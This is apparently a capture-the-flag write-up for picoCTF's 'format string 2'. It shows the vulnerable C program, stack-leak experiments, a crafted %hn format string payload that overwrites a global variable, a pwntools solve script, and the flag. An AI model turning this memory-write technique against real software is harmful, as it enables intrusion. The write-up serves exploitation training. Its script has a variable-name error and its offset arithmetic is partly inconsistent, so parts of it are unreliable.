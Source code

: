 # format string 2

## Solving

```
This program is not impressed by cheap parlor tricks like reading arbitrary data off the stack. To impress this program you must change data on the stack!
Download the binary here.
Download the source here.
Connect with the challenge instance here:
nc rhea.picoctf.net 59604
```

```c
#include <stdio.h>

int sus = 0x21737573;

int main() {
  char buf[1024];
  char flag[64];


  printf("You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your input: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
  }
  else {
    printf("sus = 0x%x\n", sus);
    printf("You can do better!\n");
    fflush(stdout);
  }

  return 0;
}
```

We see our vulnerability here 

```c
 scanf("%1024s", buf);
  printf("Here's your input: ");
  printf(buf);
```
Now over here it checks if the variable ``sus`` is ``= galf`` in little endian order. This was originally Flag. If it is it returns us the flag. Else it prints out what our current sus is set to.

Now over here we ``sus`` is declared as a global variable and in this is case is set to ``int sus = 0x21737573;``

```
Non-debugging symbols:
0x000000000040038c  __abi_tag
0x0000000000402000  _IO_stdin_used
0x0000000000402104  __GNU_EH_FRAME_HDR
0x00000000004021d8  __FRAME_END__
0x0000000000403e10  __frame_dummy_init_array_entry
0x0000000000403e18  __do_global_dtors_aux_fini_array_entry
0x0000000000403e20  _DYNAMIC
0x0000000000404000  _GLOBAL_OFFSET_TABLE_
0x0000000000404050  __data_start
0x0000000000404050  data_start
0x0000000000404058  __dso_handle
0x0000000000404060  sus
```

After using gdb to investigate the stack and looking where this sus variable was located we find out that it is present at the address location ``0x0000000000404060``

Now considering they have given us an input lets see where exactly this is stored on the stack using this script

```python
print("1"*8 + ",%llx" * 50)
```

```shell
hadakoi@Laptop:~/ctfsolve$ python3 script.py | ./vuln
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
Here's your input: 11111111,7fffae4b3400,0,0,a,400,7fcb6a230860,7fcb6a268ab0,0,0,0,7fcb6a2692e0,1a0c23d,7fcb6a230d78,3131313131313131,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c  252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,786c,7c5eaa4c508a2a00,0,1,7fffae4b3750
sus = 0x21737573
You can do better!
```
Now looking at this we realise our input is stored at the 14th part of the stack.

So from here there are some things we can do specially in this case.

However say for example trying something like this ->

```shell
hadakoi@Laptop:~/ctfsolve$ (python3 -c 'print("%18$llx,%19$llx,%20$llx,%21$llx,%22$llx,11111111")') | ./vuln
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
Here's your input: 2c786c6c24323225,3131313131313131,0,7f38e1faa451,7f38e1f98140,11111111
sus = 0x21737573
You can do better!
hadakoi@Laptop:~/ctfsolve$
```
Ends up moving it to the 19th position? Now even trying to see the 14th position we see that it shows `` 2c786c6c24343125`` and the item is at the position of 20 now????

```shell
hadakoi@Laptop:~/ctfsolve$ (python3 -c 'print("%14$llx,%18$llx,%19$llx,%20$llx,%21$llx,%22$llx,11111111")') | ./vuln
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
Here's your input: 2c786c6c24343125,2c786c6c24313225,2c786c6c24323225,3131313131313131,7f2790666400,7f2790654140,11111111
sus = 0x21737573
You can do better!
hadakoi@Laptop:~/ctfsolve$
```

The reason this is is because the addresses we are trying to view prior end up buffering it from the known offset of 14 to the value of 20. as such hence overflowing it of sorts.  This because our length of payload is 48 bits or 6 bytes hence moving us 6 bytes up from 14 to 20.

As we know the base is 14 we can then start creating a payload from this.

Now essentially we want the value of `` 0x67616c66`` at ``0x404060``. Now normally when doing format string attacks instead of using 4 bytes which is the byte value of the string we are trying to change it to we split it into smaller parts which is over here hence storing them correctly.

```
0x6761 at the location (0x404062) (bytes for 6761) 26465
0x6c66 at the location (0x404060) (bytes for 6c66) 27750
```

This is keeping in mind the endiannesss

As such we can then craft our payload: 

``"'%26465x%18$hn...'" + "%1282x%19$hn...." + "\x62\x40\x40\x00\x00\x00\x00\x00" + "\x60\x40\x40\x00\x00\x00\x00\x00"``

Now over here we have the string ``%26465x%19$hn...`` the reason we use this is becuase first we want to move 26465 once that is done we have the value ``%18$hn...`` the ... here are supposed to make the length of the payload uniform as we have seen previously even the length of accessing values on the stack effects it. The 18 value comes from our known offset which is 14 however both our exploit lengths seem to be of bits 16 which comes out to 32 essentially becoming 4 bytes hence we have the value of 18


The ``1282x%19$hn....`` helps setup the next part. This because we need to get to 27750 and this used 26465 already. hence we can do 27750 - 26465 for a value of ``1285 chars``. Now as we had use padding to clear up the space and we also had to write there lets go back 3 ``...`` taking us to 1282. Now as we have written a value on the 18th value offset we now just need to write it on the 19th offset hence matching it correctly. Over here we also padd it with an extra bit ``.`` as it requires  

We also have to pass what what the targeted address is which in this case is ``0x404062`` which we pass in little endian format same for the other address.

Hence we come up with this script to automate the solve ->

So in all actuallity ->  printing all the characters of the length of the string from hex then finding the offset and putting the address at said offset.

```python
from pwn import *

p = remote('rhea.picoctf.net',59604)
s = r.recvuntil('say?')

p.sendline(b'%26465x%18$hn...' + b'%1282x%19$hn....' + b'\x62\x40\x40\x00\x00\x00\x00\x00' + b'\x60\x40\x40\x00\x00\x00\x00\x00')
p.interactive()
```

## Flag

> picoCTF{f0rm47_57r?_f0rm47_m3m_f43e6ccc}
